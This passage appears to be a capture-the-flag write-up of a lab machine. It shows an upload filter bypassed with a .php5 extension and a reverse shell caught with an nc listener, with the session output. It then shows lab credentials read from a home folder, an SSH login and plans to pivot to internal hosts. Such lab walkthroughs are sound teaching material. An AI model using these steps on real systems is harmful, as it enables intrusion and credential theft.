 We try doing the usual methods to upload a php file instead of a plain image and using a .php5 extension works, it gets saved in the /uploads folder and we can get a shell. We just keep it easy and use the pentest monkey reverse shell here.
```bash
$ nc -nlvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.109.
Ncat: Connection from 10.10.10.109:48876.
Linux ubuntu 4.13.0-45-generic #50~16.04.1-Ubuntu SMP Wed May 30 11:18:27 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 15:59:45 up 29 min,  0 users,  load average: 0.00, 0.04, 0.33
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
From here we can see a couple users alex and dave, dave has some intresting files in his home folder and some credentials.
```bash
$ ls -lah
total 20K
drwxr-xr-x  2 dave dave 4.0K Sep  3  2018 .
drwxr-xr-x 18 dave dave 4.0K Sep  3  2018 ..
-rw-rw-r--  1 alex alex   74 Jul 17  2018 Servers
-rw-rw-r--  1 alex alex   14 Jul 17  2018 key
-rw-rw-r--  1 alex alex   20 Jul 17  2018 ssh
$ cat *
DNS + Configurator - 192.168.122.4
Firewall - 192.168.122.5
The Vault - x
itscominghome
dave
Dav3therav3123
```
We can ssh in now with dave's password, Dav3therav3123, for a more stable shell. It looks like dave has some gpg keys in here also with a bunch of other junk in his /home.
```bash
dave@ubuntu:~/.gnupg$ ls -lah
total 36K
drwx------  3 dave dave 4.0K Sep  3  2018 .
drwxr-xr-x 18 dave dave 4.0K Sep  3  2018 ..
drwx------  2 dave dave 4.0K Jul 17  2018 private-keys-v1.d
-rw-------  1 dave dave 2.2K Jul 24  2018 pubring.gpg
-rw-------  1 dave dave 2.2K Jul 24  2018 pubring.gpg~
-rw-------  1 dave dave  600 Sep  3  2018 random_seed
-rw-------  1 dave dave 4.8K Jul 24  2018 secring.gpg
-rw-------  1 dave dave 1.3K Jul 24  2018 trustdb.gpg
```
Thinking back to the DNS and firewall hosts listed in the servers file from above, we can see .122 subnet gateway address listening in netstat. We could try to reverse forward those boxes back out or try and access them here from our dave shell. 
